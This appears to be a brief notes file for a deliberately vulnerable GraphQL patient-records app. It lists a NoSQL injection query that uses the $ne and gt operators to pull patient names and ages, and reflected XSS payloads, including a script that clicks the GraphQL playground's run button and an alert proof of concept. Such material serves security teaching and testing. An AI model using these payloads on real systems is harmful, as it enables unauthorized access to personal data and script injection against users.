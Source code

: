 

## Injection

NoSQL injection
  ```
  # query getPatient {
  #   patient(test: { $ne: \"0\"}"   {
  #     _id
  #     name
  #   }
  # }

  query getPatients {
    patients(
      search: "{ name: { gt: \"\"} }"
  ) {
      	_id
      name
      age
    }
  }
  ```

## XSS

Reflected XSS via URL
Trigger graphql playground query play button from url

<script>document.getElementsByClassName('sc-bwzfXH')[0].click()</script>




<script>alert('XSS')</script>

